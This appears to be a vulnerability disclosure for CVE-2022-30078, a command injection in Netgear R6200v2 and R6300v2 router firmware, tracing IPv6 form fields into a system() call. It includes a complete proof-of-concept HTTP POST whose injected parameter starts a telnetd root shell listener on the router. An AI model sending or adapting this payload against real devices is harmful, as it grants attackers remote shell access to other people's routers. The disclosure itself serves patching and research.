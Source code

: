 # Command injection vulnerability in Netgear R6200_v2 and R6300v2 routers
## Basic information
* CVE-ID：CVE-2022-30078
* Vendor: Netgear
* Product: R6200_v2 and R6300_v2
* Firmware version: All firmware version including the latest R6200v2-V1.0.3.12_10.1.11 and R6300v2-V1.0.4.52_10.0.93
* Firmware download link: https://www.downloads.netgear.com/files/GDC/R6200V2/R6200v2-V1.0.3.12_10.1.11.zip  
https://www.downloads.netgear.com/files/GDC/R6300V2/R6300v2-V1.0.4.52_10.0.93.zip
* Type: Insecure permissions - code execution

## Vulnerability description
Vulnerability exists in the binary `/sbin/acos_service` in all R6200_v2 and R6300_v2 firmware versions including the latest R6200v2-V1.0.3.12 and R6300v2-V1.0.4.52. It might also infect some other products, which is recently not analyzed.  
Taking the latest R6200_V2_1.0.3.12 firmware as an example, the four variables `ipv6_wan_ipaddr`, `ipv6_lan_ipaddr`, `ipv6_wan_length`, and `ipv6_lan_length` are passed into a function at offset 0x1B070.  
![vulnerable function call](./CVE-2022-30078.assets/caller_code.png)  
Later, by analyzing the if statement, we can further confirm that these four variables can lead to command injection vulnerabilities. These parameters are passed into a `sprintf` function by the format string `%s`. Then, the value is passed to a `system`, which leads to a command injection vulnerability.   
![the vulnerable place](./CVE-2022-30078.assets/vuln_code.png)  
Through further attemps, we found that remote authenticated attackers can modify the value of the vulnerable parameters in website http://192.168.1.1/IPV6_fixed.htm by sending a modified request. As the vulnerable parameters are directly saved in nvram after sending the request, attackers can then execute arbitrary remote command as they controlled the parameter of a `system` call.  
After visiting the web page and sending a `POST` request, if we set the `ipv6_wan_ipaddr` parameter of the request to be `%24%28telnetd+-l+%2Fbin%2Fsh+-p+1235+-b+0.0.0.0%29`, we can actually execute command which `$(telnetd -l /bin/sh -p 1235-b 0.0.0.0)`.  
A potential PoC is shown below:  
```
POST /ipv6_fix.cgi?id=2068267834 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:99.0) Gecko/20100101 Firefox/99.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 1087
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4x
Connection: close
Referer: http://192.168.1.1/IPV6_fixed.htm
Cookie: XSRF_TOKEN=1222440606
Upgrade-Insecure-Requests: 1
apply=Apply&login_type=Fixed&IPv6WanAddr1=2001&IPv6WanAddr2=3CA2&IPv6WanAddr3=010F&IPv6WanAddr4=00A1&IPv6WanAddr5=121C&IPv6WanAddr6=0000&IPv6WanAddr7=0000&IPv6WanAddr8=0010&ProfixWanLength=6&IPv6Gateway1=2001&IPv6Gateway2=3CA2&IPv6Gateway3=010F&IPv6Gateway4=00A1&IPv6Gateway5=121C&IPv6Gateway6=0000&IPv6Gateway7=0000&IPv6Gateway8=0002&DAddr1=&DAddr2=&DAddr3=&DAddr4=&DAddr5=&DAddr6=&DAddr7=&DAddr8=&PDAddr1=&PDAddr2=&PDAddr3=&PDAddr4=&PDAddr5=&PDAddr6=&PDAddr7=&PDAddr8=&IpAssign=auto&IPv6LanAddr1=3113&IPv6LanAddr2=3CA2&IPv6LanAddr3=010F&IPv6LanAddr4=001A&IPv6LanAddr5=121B&IPv6LanAddr6=0000&IPv6LanAddr7=0000&IPv6LanAddr8=0001&ProfixLanLength=6&ipv6_wan_ipaddr=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1235+-b+0.0.0.0%29&ipv6_lan_ipaddr=3113%3A3CA2%3A010F%3A001A%3A121B%3A0000%3A0000%3A0001&ipv6_wan_length=6&ipv6_lan_length=6&ipv6_pri_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_sec_dns=%3A%3A%3A%3A%3A%3A%3A&ipv6_wan_gateway=%24%28telnetd+-l+%2Fbin%2Fsh+-p+1234+-b+0.0.0.0%29&ipv6_enable_dhcp=&ipv6_proto=fixed
```
An evidence of the vulnerable is shown below:  
![reproduction evidence-ipv6_wan_ipaddr](./CVE-2022-30078.assets/reproduction_ipv6_wan_ipaddr.png)  
Similarly, we can also change the other three parameters to construct similar commands, the evidence of the attacks using these parameters are shown as below:
![reproduction evidence-ipv6_lan_ipaddr](./CVE-2022-30078.assets/reproduction_ipv6_lan_ipaddr.png)  
![reproduction evidence-ipv6_wan_length](./CVE-2022-30078.assets/reproduction_ipv6_wan_length.png)  
![reproduction evidence-ipv6_wan_length](./CVE-2022-30078.assets/reproduction_ipv6_lan_length.png)  

## Acknowledgment
This vulnerability credits to [@maybethetricker](https://github.com/maybethetricker) and [@river-li](https://github.com/river-li)
